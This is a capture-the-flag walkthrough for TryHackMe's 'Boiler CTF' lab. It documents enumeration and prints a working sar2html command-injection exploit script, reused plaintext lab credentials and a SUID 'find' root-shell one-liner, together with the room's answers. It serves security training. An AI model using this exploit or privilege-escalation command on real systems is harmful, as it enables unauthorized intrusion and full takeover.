

# Boiler CTF

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Challenge
Difficulty: Medium
Tags: Linux, Web
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
Subscription type: Free
Description:
Intermediate level CTF
```

Room link: [https://tryhackme.com/room/boilerctf2](https://tryhackme.com/room/boilerctf2)

## Solution

### Task 1: Question #1

#### Set up your virtual environment

To successfully complete this room, you'll need to set up your virtual environment. This involves starting both your AttackBox (if you're not using your VPN) and Lab Machines, ensuring you're equipped with the necessary tools and access to tackle the challenges ahead.

Intermediate level CTF. Just enumerate, you'll get there.

---------------------------------------------------------------------------------------

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ export TARGET_IP=10.112.128.216

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ sudo nmap -sC -sV -p- $TARGET_IP
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-08-24 08:48 +0200
Nmap scan report for 10.112.128.216
Host is up (0.027s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.152.166
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
|_  256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.91 seconds
```

We have three main TCP-services running and available:

- vsftpd 3.0.3 running on port 21
- Apache httpd 2.4.18 running on port 80
- MiniServ 1.930 running on port 10000
- OpenSSH 7.2p2 running on port 55007

#### File extension after anon login

Next, we check out the contents of the FTP-server.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ ftp anonymous@$TARGET_IP 
Connected to 10.112.128.216.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||48268|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> mget .info.txt
mget .info.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||49049|)
150 Opening BINARY mode data connection for .info.txt (74 bytes).
100% |*************************************************************************************************************************************************|    74       14.90 KiB/s    00:00 ETA
226 Transfer complete.
74 bytes received in 00:00 (2.41 KiB/s)
ftp> quit
221 Goodbye.

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ cat .info.txt 
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ cat .info.txt | rot13 
Just wanted to see if you find it. Lol. Remember: Enumeration is the key!
```

Answer: `txt`

#### What is on the highest port?

See the nmap scan above.

Answer: `ssh`

#### What's running on port 10000?

See the nmap scan above.

Answer: `Webmin`

#### Can you exploit the service running on that port? (yay/nay answer)

Let's see if there are any exploits available for Webmin 1.930.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ searchsploit webmin 1.930
Exploits: No Results
Shellcodes: No Results
Papers: No Results
```

Answer: `nay`

#### What's CMS can you access?

The we search for additional files and directories with Gobuster.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 32 -x php,txt,html -u http://$TARGET_IP 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.112.128.216
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 293]
/.hta.php             (Status: 403) [Size: 297]
/.hta.html            (Status: 403) [Size: 298]
/.hta.txt             (Status: 403) [Size: 297]
/.htaccess            (Status: 403) [Size: 298]
/.htaccess.txt        (Status: 403) [Size: 302]
/.htaccess.php        (Status: 403) [Size: 302]
/.htaccess.html       (Status: 403) [Size: 303]
/.htpasswd            (Status: 403) [Size: 298]
/.htpasswd.php        (Status: 403) [Size: 302]
/.htpasswd.txt        (Status: 403) [Size: 302]
/.htpasswd.html       (Status: 403) [Size: 303]
/index.html           (Status: 200) [Size: 11321]
/index.html           (Status: 200) [Size: 11321]
/joomla               (Status: 301) [Size: 317] [--> http://10.112.128.216/joomla/]
/manual               (Status: 301) [Size: 317] [--> http://10.112.128.216/manual/]
/robots.txt           (Status: 200) [Size: 257]
/robots.txt           (Status: 200) [Size: 257]
/server-status        (Status: 403) [Size: 302]
Progress: 18984 / 18988 (99.98%)
===============================================================
Finished
===============================================================
```

On `http://10.112.128.216/joomla/` we find a [Joomla](https://en.wikipedia.org/wiki/Joomla) site:


Answer: `Joomla`

We also check out the `robots.txt` file.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ curl http://$TARGET_IP/robots.txt
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```

The decimal numbers decode to the [MD5-hash](https://md5.gromweb.com/?md5=99b0660cd95adea327c54182baa51584) of `kidding`. Very funny :-)

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ source ~/Python_venvs/Binary_Refinery/bin/activate

┌──(Binary_Refinery)─(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ curl -s http://$TARGET_IP/robots.txt | tail -n2 | pack 10 | base64 -d
99b0660cd95adea327c54182baa51584
```

#### Keep enumerating, you'll know when you find it

Hint: List & read, don't reverse

We keep enumerating the directories found in the `robots.txt` file but find nothing.

But we also scan the `joomla` directory. This time with `dirsearch`.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ dirsearch -w /usr/share/wordlists/dirb/common.txt -F -t 32 -e php,txt,html -u http://$TARGET_IP/joomla/ 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3 
 (_||| _) (/_(_|| (_| ) 
 
Extensions: php, txt, html | HTTP method: GET | Threads: 32 | Wordlist size: 4613

Output File: /mnt/hgfs/Wargames/TryHackMe/Challenges/Medium/Boiler_CTF/reports/http_10.112.128.216/_joomla__26-08-24_09-56-31.txt

Target: http://10.112.128.216/

[09:56:31] Starting: joomla/ 
[09:56:32] 200 -  156B  - /joomla/_files/ 
-->  http://10.112.128.216/joomla/_files
[09:56:32] 200 -  148B  - /joomla/_database/ 
-->  http://10.112.128.216/joomla/_database
[09:56:32] 200 -    2KB - /joomla/_test/ 
-->  http://10.112.128.216/joomla/_test
[09:56:32] 200 -  145B  - /joomla/~www/ 
-->  http://10.112.128.216/joomla/~www
[09:56:33] 200 -    2KB - /joomla/administrator/ 
-->  http://10.112.128.216/joomla/administrator
[09:56:34] 200 -  145B  - /joomla/_archive/ 
-->  http://10.112.128.216/joomla/_archive
[09:56:34] 200 -   31B  - /joomla/bin/ 
-->  http://10.112.128.216/joomla/bin
[09:56:35] 200 -   31B  - /joomla/cache/ 
-->  http://10.112.128.216/joomla/cache
[09:56:35] 200 -  669B  - /joomla/build/ 
-->  http://10.112.128.216/joomla/build
[09:56:36] 200 -   31B  - /joomla/components/ 
-->  http://10.112.128.216/joomla/components
[09:56:40] 200 -   31B  - /joomla/images/ 
-->  http://10.112.128.216/joomla/images
[09:56:40] 200 -   31B  - /joomla/includes/ 
-->  http://10.112.128.216/joomla/includes
[09:56:40] 200 -    2KB - /joomla/installation/ 
-->  http://10.112.128.216/joomla/installation
[09:56:41] 200 -   31B  - /joomla/language/ 
-->  http://10.112.128.216/joomla/language
[09:56:41] 200 -   31B  - /joomla/layouts/ 
-->  http://10.112.128.216/joomla/layouts
[09:56:41] 200 -   31B  - /joomla/libraries/ 
-->  http://10.112.128.216/joomla/libraries
[09:56:42] 200 -   31B  - /joomla/media/ 
-->  http://10.112.128.216/joomla/media
[09:56:42] 200 -   31B  - /joomla/modules/ 
-->  http://10.112.128.216/joomla/modules
[09:56:44] 200 -   31B  - /joomla/plugins/ 
-->  http://10.112.128.216/joomla/plugins
[09:56:49] 200 -   31B  - /joomla/templates/ 
-->  http://10.112.128.216/joomla/templates
[09:56:49] 200 -  517B  - /joomla/tests/ 
-->  http://10.112.128.216/joomla/tests
[09:56:50] 200 -   31B  - /joomla/tmp/ 
-->  http://10.112.128.216/joomla/tmp
 
Task Completed   
```

On `/joomla/_files` we find another red herring.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ curl -s -L http://$TARGET_IP/joomla/_files
<!DOCTYPE html>
<html>
        <head>
                <title>Woops</title>
        </head>
        <body>
                <div align=center><h1 style=color:red>VjJodmNITnBaU0JrWVdsemVRbz0K</h1></div>
        </body>
</html>

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ echo 'VjJodmNITnBaU0JrWVdsemVRbz0K' | base64 -d
V2hvcHNpZSBkYWlzeQo=

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ echo 'VjJodmNITnBaU0JrWVdsemVRbz0K' | base64 -d | base64 -d
Whopsie daisy
```

But on `joomla/_test/` we find something interesting: sar2html.



Searching for exploits we find one:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ searchsploit sar2html 
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
sar2html 3.2.1 - 'plot' Remote Code Execution                                                                                                               | php/webapps/49344.py
Sar2HTML 3.2.1 - Remote Command Execution                                                                                                                   | php/webapps/47204.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ searchsploit -m 49344
  Exploit: sar2html 3.2.1 - 'plot' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49344
     Path: /usr/share/exploitdb/exploits/php/webapps/49344.py
    Codes: N/A
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /mnt/hgfs/Wargames/TryHackMe/Challenges/Medium/Boiler_CTF/49344.py


┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ cat 49344.py 
# Exploit Title: sar2html 3.2.1 - 'plot' Remote Code Execution
# Date: 27-12-2020
# Exploit Author: Musyoka Ian
# Vendor Homepage:https://github.com/cemtan/sar2html
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Ubuntu 18.04.1

#!/usr/bin/env python3

import requests
import re
from cmd import Cmd

url = input("Enter The url => ")

class Terminal(Cmd):
    prompt = "Command => "
    def default(self, args):
        exploiter(args)

def exploiter(cmd):
    global url
    sess = requests.session()
    output = sess.get(f"{url}/index.php?plot=;{cmd}")
    try:
        out = re.findall("<option value=(.*?)>", output.text)
    except:
        print ("Error!!")
    for ouut in out:
        if "There is no defined host..." not in ouut:
            if "null selected" not in ouut:
                if "selected" not in ouut:
                    print (ouut)
    print ()

if __name__ == ("__main__"):
    terminal = Terminal()
    terminal.cmdloop()   
```

#### The interesting file name in the folder?

With the RCE we find an interesting log file containing credentials (`basterd:superduperp@$$`):

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ python 49344.py
Enter The url => http://10.112.128.216/joomla/_test
Command => ls
HPUX
Linux
SunOS
index.php
log.txt
sar2html
sarFILE

Command => cat log.txt
HPUX
Linux
SunOS
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
```

Answer: `log.txt`

---------------------------------------------------------------------------------------

### Task 2: Question #2

You can complete this with manual enumeration, but do it as you wish.

We can now connect using SSH with our new credentials (`basterd:superduperp@$$`).

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ ssh -p 55007 basterd@$TARGET_IP 
The authenticity of host '[10.112.128.216]:55007 ([10.112.128.216]:55007)' can't be established.
ED25519 key fingerprint is SHA256:GhS3mY+uTmthQeOzwxRCFZHv1MN2hrYkdao9HJvi8lk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.112.128.216]:55007' (ED25519) to the list of known hosts.
basterd@10.112.128.216's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.


Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199
$ 
```

#### Where was the other users pass stored (no extension, just the name)?

Let's see what files we have in our home directory.

```bash
$ ls -la
total 16
drwxr-x--- 3 basterd basterd 4096 Aug 22  2019 .
drwxr-xr-x 4 root    root    4096 Aug 22  2019 ..
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
-rw------- 1 basterd basterd    0 Aug 22  2019 .bash_history
drwx------ 2 basterd basterd 4096 Aug 22  2019 .cache
$ cat backup.sh
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
                    echo $i "removed" >> $LOG
                    echo "####################" >> $LOG
                                else
                                        echo "Copy not complete" >> $LOG
                                        exit 0
                fi 
    done
     

else

    echo "Directory is not present" >> $LOG
    exit 0
fi
$ 
```

Answer: `backup`

Another set of possible credentials (`stoner:superduperp@$$no1knows`). Let's verify them.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Boiler_CTF]
└─$ ssh -p 55007 stoner@$TARGET_IP
stoner@10.112.128.216's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Thu Aug 22 16:05:13 2019
stoner@Vulnerable:~$ ls -la
total 20
drwxr-x--- 4 stoner stoner 4096 Aug 24 11:13 .
drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
drwx------ 2 stoner stoner 4096 Aug 24 11:13 .cache
drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
stoner@Vulnerable:~$ 
```

We are in!

#### user.txt

Now we can get the user flag.

```bash
stoner@Vulnerable:~$ cat .secret
Y<REDACTED>.
stoner@Vulnerable:~$ 
```

Answer: `Y<REDACTED>.`

Next, we seach for privesc opportunities.

First, we check what we can do with `sudo`.

```bash
stoner@Vulnerable:~$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
stoner@Vulnerable:~$ ls -l /NotThisTime/MessinWithYa
ls: cannot access '/NotThisTime/MessinWithYa': No such file or directory
stoner@Vulnerable:~$ 
```

But we just get another red herring.

#### What did you exploit to get the privileged user?

Then we check for SUID-binaries.

```bash
stoner@Vulnerable:~$ find / -type f -perm /4000 2>/dev/null
/bin/su
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping6
/bin/ping
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/apache2/suexec-custom
/usr/lib/apache2/suexec-pristine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgidmap
/usr/bin/find
/usr/bin/at
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newuidmap
stoner@Vulnerable:~$ 
```

The [find](https://gtfobins.org/gtfobins/find/) binary looks very promising!

Answer: `find`

Next, we get a root shell using `find`.

```bash
stoner@Vulnerable:~$ find . -exec /bin/sh -p \; -quit
# id
uid=1000(stoner) gid=1000(stoner) euid=0(root) groups=1000(stoner),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
# 
```

#### root.txt

Finally, we get the root flag.

```bash
# cd /root
# ls -la
total 12
drwx------  2 root root 4096 Aug 22  2019 .
drwxr-xr-x 22 root root 4096 Aug 22  2019 ..
-rw-r--r--  1 root root   29 Aug 21  2019 root.txt
# cat root.txt
I<REDACTED>?
# 
```

Answer: `I<REDACTED>?`

---------------------------------------------------------------------------------------

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [base64 - Linux manual page](https://man7.org/linux/man-pages/man1/base64.1.html)
- [Base64 - Wikipedia](https://en.wikipedia.org/wiki/Base64)
- [Binary Refinery - Documentation](https://binref.github.io/)
- [Binary Refinery - GitHub](https://github.com/binref/refinery/)
- [cat - Linux manual page](https://man7.org/linux/man-pages/man1/cat.1.html)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [Dirsearch - GitHub](https://github.com/maurosoria/dirsearch)
- [Dirsearch - Kali Tools](https://www.kali.org/tools/dirsearch/)
- [echo - Linux manual page](https://man7.org/linux/man-pages/man1/echo.1.html)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [File Transfer Protocol - Wikipedia](https://en.wikipedia.org/wiki/File_Transfer_Protocol)
- [find - GTFOBins](https://gtfobins.org/gtfobins/find/)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [ftp - Linux manual page](https://linux.die.net/man/1/ftp)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [Joomla - Wikipedia](https://en.wikipedia.org/wiki/Joomla)
- [MD5 - Wikipedia](https://en.wikipedia.org/wiki/MD5)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [Red herring - Wikipedia](https://en.wikipedia.org/wiki/Red_herring)
- [robots.txt - Wikipedia](https://en.wikipedia.org/wiki/Robots.txt)
- [ROT13 - Wikipedia](https://en.wikipedia.org/wiki/ROT13)
- [searchsploit - Homepage](https://www.exploit-db.com/searchsploit)
- [searchsploit - Kali Tools](https://www.kali.org/tools/exploitdb/#searchsploit)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [Setuid - Wikipedia](https://en.wikipedia.org/wiki/Setuid)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [tail - Linux manual page](https://man7.org/linux/man-pages/man1/tail.1.html)
- [vsftpd - Wikipedia](https://en.wikipedia.org/wiki/Vsftpd)
- [Webmin - Wikipedia](https://en.wikipedia.org/wiki/Webmin)
